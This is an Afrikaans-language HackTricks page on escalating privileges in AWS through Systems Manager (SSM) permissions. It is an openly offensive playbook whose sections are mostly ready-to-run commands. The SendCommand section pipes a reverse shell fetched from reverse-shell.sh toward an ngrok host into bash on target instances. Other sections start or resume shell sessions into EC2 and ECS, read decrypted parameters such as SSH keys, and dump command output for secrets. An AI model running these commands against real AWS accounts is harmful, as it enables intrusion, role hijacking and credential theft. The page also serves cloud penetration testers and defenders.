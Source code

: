 # AWS - SSM Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Vir meer inligting oor SSM kyk:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

'n Aanvaller met die toestemming **`ssm:SendCommand`** kan **opdragte uitvoer in instansies** wat die Amazon SSM Agent draai en **die IAM Rol** wat binne dit draai, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
In die geval dat jy hierdie tegniek gebruik om voorregte te verhoog binne 'n reeds gecompromitteerde EC2-instantie, kan jy net die rev shell plaaslik vang met:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

### `ssm:StartSession`

'n Aanvaller met die toestemming **`ssm:StartSession`** kan **'n SSH-agtige sessie in instansies** wat die Amazon SSM Agent draai, **begin en die IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Om 'n sessie te begin, moet jy die **SessionManagerPlugin** geïnstalleer hê: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

#### Privesc na ECS

Wanneer **ECS take** met **`ExecuteCommand` geaktiveer** loop, kan gebruikers met genoeg regte `ecs execute-command` gebruik om **'n opdrag** binne die houer uit te voer.\
Volgens [**die dokumentasie**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) word dit gedoen deur 'n veilige kanaal te skep tussen die toestel wat jy gebruik om die “_exec_“ opdrag te begin en die teikenhouer met SSM Session Manager. (SSM Session Manager Plugin is nodig vir dit om te werk)\
Daarom sal gebruikers met `ssm:StartSession` in staat wees om **'n skulp binne ECS take** met daardie opsie geaktiveer te kry deur net te loop:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potensiële Impak:** Direkte privesc na die `ECS`IAM rolle wat aan lopende take met `ExecuteCommand` geaktiveer is, geheg is.

### `ssm:ResumeSession`

'n Aanvaller met die toestemming **`ssm:ResumeSession`** kan 'n **SSH-agtige sessie in instances** wat die Amazon SSM Agent met 'n **afgekoppelde** SSM sessietoestand draai, her-**begin en die IAM Rol** wat binne dit draai, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents wat loop en ontkoppelde sessies geheg is.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

'n Aanvaller met die genoemde toestemmings gaan in staat wees om die **SSM parameters** te lys en **dit in duidelike teks te lees**. In hierdie parameters kan jy dikwels **sensitiewe inligting** soos SSH sleutels of API sleutels vind.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potensiële Impak:** Vind sensitiewe inligting binne die parameters.

### `ssm:ListCommands`

'n Aanvaller met hierdie toestemming kan al die **opdragte** lys wat gestuur is en hoopvol **sensitiewe inligting** daarop vind.
```
aws ssm list-commands
```
**Potensiële Impak:** Vind sensitiewe inligting binne die opdraglyne.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

'n Aanvaller met hierdie toestemmings kan al die **opdragte** lys wat gestuur is en **die uitvoer** lees wat gegenereer is, in die hoop om **sensitiewe inligting** daarop te vind.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die uitvoer van die opdraglyne.

### Codebuild

Jy kan ook SSM gebruik om binne 'n codebuild projek wat gebou word, te kom:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
